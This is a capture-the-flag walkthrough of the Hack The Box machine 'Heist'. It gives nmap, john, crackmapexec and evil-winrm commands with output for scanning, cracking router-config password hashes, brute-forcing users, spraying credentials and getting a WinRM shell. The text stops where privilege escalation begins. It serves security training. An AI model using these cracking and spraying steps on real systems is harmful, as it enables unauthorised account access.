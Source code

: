 # Box Name: Heist
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.96.157 -p- -v -T4```

```
Nmap scan report for 10.129.96.157
Host is up (0.40s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49669/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T19:48:09
|_  start_date: N/A
|_clock-skew: -1s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   339.57 ms 10.10.16.1
2   340.07 ms 10.129.96.157

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 20:48:49 2023 -- 1 IP address (1 host up) scanned in 436.02 seconds
```
From our nmap scan we have quite a number of ports opened. We'll start our enumeration today from port 80



# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2bc80794-25ca-4678-a4fb-5ca4fb869bb6)

We get this login page. Since we don't have any creds lets login as guest

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/58e61a19-7993-42ce-bdbf-8c6d4c00e149)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d10915da-73c3-4987-bd9a-f3993ec38178)

Nice, this is a conversation between user ```Hazard``` and the ```admin```. 

Lets check out the configuration file user ```Hazard``` sent.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ce07dae4-06f7-4a39-96f6-d0f0e693bc2f)

From the above screenshot we can see encrypted passwords for users ```Hazard```, ```rout3r``` and ```admin```.

Lets try to crack the first password

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ nano hash                                                        
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt            
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:01:07 DONE (2023-10-10 21:09) 0.01479g/s 51878p/s 51878c/s 51878C/s stealthy001..stcroix85
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ cat hash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
We got the password to be ```stealth1agent```. Lets try gain access using winrm

command:```evil-winrm -u hazard -i 10.129.96.157 -p 'stealth1agent' -S```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84a4e6da-f73f-4053-8bf5-7fc5578fc32d)

oops, it didn't work

Lets try to crack the type 7 passwords. I used this online [tool](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html) for it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4d258bd0-7e89-40bd-8ef3-da86a9befa38)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8ece8d10-6f19-45d5-8f7d-6559deaea12f)

We now have 3 passwords, lets enumerate for potential users

We can try to enumerate users from the smb share using crackmapexec

command:```crackmapexec smb 10.129.94.141 -u hazard -p stealth1agent --rid-brute```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b270dc27-6a75-47cd-8fad-70cdb37fc033)

We now have potential users.

Save the users and passwords in different files, we'll use crackmapexec to get a match we can use to login via winrm

command:```crackmapexec winrm 10.129.94.141 -u users.txt -p passwords.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e8ffff8c-6d52-4417-b959-d454035fecd2)

We got a match, now lets login with winrm

username:```chase```        password:```Q4)sJu\Y8qz*A3?d```

command:```evil-winrm -u chase -i 10.129.94.141 -p "Q4)sJu\Y8qz*A3?d"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/18e837e5-3695-4a51-849f-9418a416e3b1)

We got user shell hehe. Lets go ahead and escalate our privileges



# Privilege Escalation

Checking the installed programs, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/caf2e25c-4847-4eae-b809-c129eee81be5)


























